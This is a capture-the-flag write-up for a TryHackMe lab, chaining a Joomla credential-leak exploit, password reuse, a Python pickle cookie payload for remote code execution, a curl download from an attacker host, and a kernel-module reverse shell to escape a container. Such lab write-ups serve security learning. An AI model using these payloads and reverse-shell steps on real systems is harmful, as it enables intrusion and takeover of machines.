https://tryhackme.com/room/voyage
## description
Chain multiple vulnerabilities to gain control of a system.
Sometimes in a pentest, you get root access very quickly. But is it the real root or just a container? The voyage might still be going on.

## port scanning
```bash
nmap -A -p- -T5 -Pn 10.80.140.109

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c5:22:96:2a:21:3c:5b:16:1d:ff:63:7e:c7:c0:6d:f8 (ECDSA)
|_  256 12:cc:1c:c6:7b:a5:8d:cc:37:15:5a:74:da:04:1d:c7 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Home
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-generator: Joomla! - Open Source Content Management
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:4a:7e:34:01:09:f8:68:d8:f7:dd:b8:57:d4:17:cf (RSA)
|   256 8d:cd:5e:60:35:c8:65:66:3a:c5:5c:2f:ac:62:93:80 (ECDSA)
|_  256 a9:d5:16:b1:5d:4a:4c:94:3f:fd:a9:68:5f:24:ee:79 (ED25519)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## directories discovery
```
feroxbuster -u 'http://10.80.140.109:80/' -w /media/sf_wordlists/SecLists-master/Discovery/Web-Content/big.txt

```
found administrator panel:
http://10.80.140.109/administrator/
there is also API endpoint:
http://10.80.140.109/api/
## main website view
website on port 80

## interesting findings in website source code
- it's running on joomla, because of some indicators in source, and favicon
```
<script type="application/json" class="joomla-script-options new">{"joomla.jtext":{"JSHOWPASSWORD":"Show Password","JHIDEPASSWORD":"Hide Password","ERROR":"Error","MESSAGE":"Message","NOTICE":"Notice","WARNING":"Warning","JCLOSE":"Close","JOK":"OK","JOPEN":"Open"},"system.paths":{"root":"","rootFull":"http:\/\/10.80.140.109\/","base":"","baseFull":"http:\/\/10.80.140.109\/"},"csrf.token":"47fd138e315477aeb6363adb3dca3e35","system.keepalive":{"interval":840000,"uri":"\/index.php\/component\/ajax\/?format=json"}}</script>
```
```
<li> <a href="[/index.php/component/users/reset?Itemid=101](view-source:http://10.80.140.109/index.php/component/users/reset?Itemid=101)"> Forgot your password?</a> </li> <li> <a href="[/index.php/component/users/remind?Itemid=101](view-source:http://10.80.140.109/index.php/component/users/remind?Itemid=101)"> Forgot your username?</a> </li>
```
- `return=aHR0cDovLzEwLjgwLjE0MC4xMDkv` - its url after login in base64

```
└─$ whatweb http://10.80.140.109
http://10.80.140.109 [200 OK] Apache[2.4.58], Cookies[310c29008fc04f792e0bccb4682e5b78], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], HttpOnly[310c29008fc04f792e0bccb4682e5b78], IP[10.80.140.109], MetaGenerator[Joomla! - Open Source Content Management], PasswordField[password], Script[application/json,application/ld+json,module], Title[Home], UncommonHeaders[referrer-policy,cross-origin-opener-policy], X-Frame-Options[SAMEORIGIN]

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Wed, 07 Jan 2026 13:50:37 GMT
        Server: Apache/2.4.58 (Ubuntu)
        Set-Cookie: 310c29008fc04f792e0bccb4682e5b78=ihn5kmb6tfjm986knchtscac21; path=/; HttpOnly
        x-frame-options: SAMEORIGIN
        referrer-policy: strict-origin-when-cross-origin
        cross-origin-opener-policy: same-origin
        Expires: Wed, 17 Aug 2005 00:00:00 GMT
        Last-Modified: Wed, 07 Jan 2026 13:50:37 GMT
        Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
        Pragma: no-cache
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 2549
        Connection: close
        Content-Type: text/html; charset=utf-8
                                   
```

in one of xmls found by feroxbuster there is creation date. it can suggest some version / old application core, probably vulnerable
```
<author>Joomla! Project</author>
<creationDate>2005-11</creationDate>
<copyright>(C) 2005 Open Source Matters, Inc.</copyright>
<license>
```

I used joomscan tool to confirm version and search for some vulnerabilities:
```bash
joomscan -u http://10.80.140.109

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.7

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable
^[[A^[[A^[[A
[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.80.140.109/administrator/components
http://10.80.140.109/administrator/modules
http://10.80.140.109/administrator/templates
http://10.80.140.109/images/banners

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.80.140.109/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.80.140.109/robots.txt 

Interesting path found from robots.txt
http://10.80.140.109/joomla/administrator/
http://10.80.140.109/administrator/
http://10.80.140.109/api/
http://10.80.140.109/bin/
http://10.80.140.109/cache/
http://10.80.140.109/cli/
http://10.80.140.109/components/
http://10.80.140.109/includes/
http://10.80.140.109/installation/                
http://10.80.140.109/language/                    
http://10.80.140.109/layouts/                     
http://10.80.140.109/libraries/                   
http://10.80.140.109/logs/                         
http://10.80.140.109/modules/                    
http://10.80.140.109/plugins/                      
http://10.80.140.109/tmp/  
[+] Finding common backup files name
[++] Backup files are not found                                                            [+] Finding common log files name                                                                                           
[++] error log is not found                                                                
[+] Checking sensitive config.php.x file                                                                                                                                                                                         
[++] Readable config files are not found   

[+] Enumeration component (com_ajax)               
[++] Name: com_ajax                             
Location : http://10.80.140.109/components/com_ajax/ 
Directory listing is enabled : http://10.80.140.109/components/com_ajax/
[+] Enumeration component (com_banners)           
[++] Name: com_banners                          
Location : http://10.80.140.109/components/com_banners/
Directory listing is enabled : http://10.80.140.109/components/com_banners/
[+] Enumeration component (com_contact)           
[++] Name: com_contact                             
Location : http://10.80.140.109/components/com_contact/ 
Directory listing is enabled : http://10.80.140.109/components/com_contact/
[+] Enumeration component (com_content)             
[++] Name: com_content                             
Location : http://10.80.140.109/components/com_content/  
Directory listing is enabled : http://10.80.140.109/components/com_content/
[+] Enumeration component (com_contenthistory)    
[++] Name: com_contenthistory
Location : http://10.80.140.109/components/com_contenthistory/    
Directory listing is enabled : http://10.80.140.109/components/com_contenthistory/         
[+] Enumeration component (com_fields)                     
[++] Name: com_fields                            
Location : http://10.80.140.109/components/com_fields/
Directory listing is enabled : http://10.80.140.109/components/com_fields/                 [+] Enumeration component (com_finder)            
[++] Name: com_finder                              
Location : http://10.80.140.109/components/com_finder/  
Directory listing is enabled : http://10.80.140.109/components/com_finder/                 
[+] Enumeration component (com_media)              
[++] Name: com_media                                
Location : http://10.80.140.109/components/com_media/ 
Directory listing is enabled : http://10.80.140.109/components/com_media/
[+] Enumeration component (com_newsfeeds)          
[++] Name: com_newsfeeds                            
Location : http://10.80.140.109/components/com_newsfeeds/  
Directory listing is enabled : http://10.80.140.109/components/com_newsfeeds/
[+] Enumeration component (com_users)               
[++] Name: com_users                                 
Location : http://10.80.140.109/components/com_users/  
Directory listing is enabled : http://10.80.140.109/components/com_users/
[+] Enumeration component (com_wrapper)             
[++] Name: com_wrapper                              
Location : http://10.80.140.109/components/com_wrapper/      
Directory listing is enabled : http://10.80.140.109/components/com_wrapper/                

```

After some googling I found that this version of joomla is vulnerable to: https://www.exploit-db.com/exploits/51334
I downloaded exploit and tried:
```bash
 ruby 51334.py http://10.80.140.109:80
Users
[377] root (root) - mail@tourism.thm - Super Users

Site info
Site name: Tourism
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: root
DB password: RootPassword@1234
DB name: joomla_db
DB prefix: ecsjh_
DB encryption 0

```
wow we have username, password and email but it's db user and password
but maybe reused? Yes it is...

unfortunately we are root but in container:
```
mount | grep -E 'docker|overlay'
```

In /etc/hosts we have some private ip

we have nmap available so I will scan this network:
```
 nmap 192.168.100.0/24
 PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
5000/tcp open  upnp
MAC Address: 02:42:B0:11:34:06 (Unknown)

Nmap scan report for voyage_priv2.joomla-net (192.168.100.12)
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
5000/tcp open  upnp
MAC Address: 02:42:C0:A8:64:0C (Unknown)

Nmap scan report for f5eb774507f2 (192.168.100.10)
Host is up (0.0000040s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

```

accessing service on 5000 port:
```
socat tcp-listen:5000,fork,reuseaddr tcp:192.168.100.12:5000
```

looks like we can guess password, as page was under development they were not using strong password...

interesting part is cookie:
Cookie
	310c29008fc04f792e0bccb4682e5b78=l8kp0jh7ku2mq9i04cnoh7ga94; 03245e095856e4447d1dfb528d67c5d3=vj89m5v7jb52gh56ohis8ci7gq; session_data=80049526000000000000007d94288c0475736572948c0561646d696e948c07726576656e7565948c05383530303094752e

here is some script to unpack (unpickle) session_data from this cookie:

revenue is displayed on page. maybe it is possible to inject something executable into cookie  to get RCE during this cookie value deserialization
https://snyk.io/articles/python-pickle-poisoning-and-backdooring-pth-files/

```python
import pickle
import subprocess
import os

class Malicious:
    def __reduce__(self):
        return subprocess.check_output, (['whoami'],)

data = {    
        'user' : Malicious(),
        'revenue' : '85000'
 }

payload = pickle.dumps(data)
print(payload.hex())

```
...machine terminated.... i will try this session_data cookie with new ip....

looks like working - now we show whoami 

now we have reverse shell
we don't have wget here, but we can download linpeas.sh using curl:
```
curl http://IP:8000/linpeas.sh -o linpeas.sh
```
linpeas found dangerous capabilities:
https://www.isec.tugraz.at/wp-content/uploads/2024/09/07-privesc-containers-1.pdf
here is instruction how to use it:
https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module
First we need Makefile and reverse-shell.c from this article
We need to copy it to target machine.
After that we need to make it 
```
# run on target
make
# run on your machine:
nc -nlvp 1234
# run on target:
insmod reverse-shell.ko

```

after sending files to target:

don't forget to start listener on your machine and after running ``insmod reverse-shell.ko`` you will have reverse shell as root


